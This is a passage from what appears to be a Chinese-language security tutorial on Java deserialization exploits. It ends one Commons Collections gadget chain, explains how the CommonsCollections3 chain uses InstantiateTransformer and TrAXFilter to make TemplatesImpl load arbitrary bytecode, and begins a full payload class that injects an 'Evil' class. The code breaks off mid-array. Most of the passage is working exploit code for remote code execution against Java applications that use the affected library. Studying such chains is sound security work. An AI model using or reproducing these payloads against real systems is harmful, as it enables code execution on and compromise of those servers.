 ```java
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Reflection.setFieldValue(val, "val", tme); // 通过反射更改 val

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(val);
    }
}
```

## CommonsCollections3

cc3 相比于前面的 cc 链有两个特性, 第一是它引入了 TemplatesImpl 来执行任意 java 字节码, 第二是它将 InvokerTransformer 换成了 InstantiateTransformer, 并通过 TrAXFilter 来引发 TemplatesImpl 链

前面讲过 InstantiateTransformer 可以实例化某个类, 这里实例化的是 TrAXFilter

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231623073.png)

它的构造方法能够调用 `templates.newTransformer()`, 正好能与 TemplatesImpl 链串起来

TemplatesImpl 在之前讲 ClassLoader 的时候分析过, 这里就不写了

payload 如下

```java
package com.example.CommonsCollections3;

import com.example.Evil;
import com.example.Reflection;
import com.example.Serialization;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
```